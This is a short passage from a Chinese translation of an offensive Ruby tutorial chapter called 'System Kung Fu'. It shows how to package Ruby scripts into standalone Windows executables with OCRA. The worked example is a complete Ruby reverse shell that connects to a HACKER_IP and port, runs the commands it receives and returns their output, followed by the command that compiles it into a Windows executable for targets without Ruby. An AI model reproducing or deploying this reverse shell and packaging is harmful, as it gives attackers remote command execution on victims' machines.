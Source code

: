 # 模块0x2 | 系统功夫

# 模块0x2 | 系统功夫

## 打包

很多关于构建一个独立应用程序的问题，不需要在系统上预先安装Ruby。当然，由于攻击机器，你无法保证目标系统上是否安装了Ruby。因此，在这里我们将演示一些方法。

### 一键Ruby应用程序(OCRA)构建器

OCRA（一键Ruby应用程序）从Ruby源代���构建Windows可执行文件。该可执行文件是一个自解压、自运行的可执行文件，包含了Ruby解释器、你的源代码以及任何额外需要的Ruby库或DLL。

**仅支持Windows**，当然不是 ;)

+   Features

    > +   LZMA压缩（可选，默认开启）
    > +   
    > +   Ruby 1.8.7, 1.9.3, 2.0.0和2.1.5支持
    > +   
    > +   支持窗口/控制台模式
    > +   
    > +   根据使用情况或从Bundler Gemfile中包含gems

+   安装OCRA

    ```
    gem install ocra 
    ```

所有你需要的就是你的应用程序。

假设我们有以下脚本，当然是一个反向shell ;)

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.new(ip,port)
while cmd = s.gets
  IO.popen(cmd,"r"){|io|s.print io.read}
end 
```

从我们的Windows攻击机器cmd.exe

```
C:\Users\admin\Desktop>ocra rshell.rb --windows --console 
```
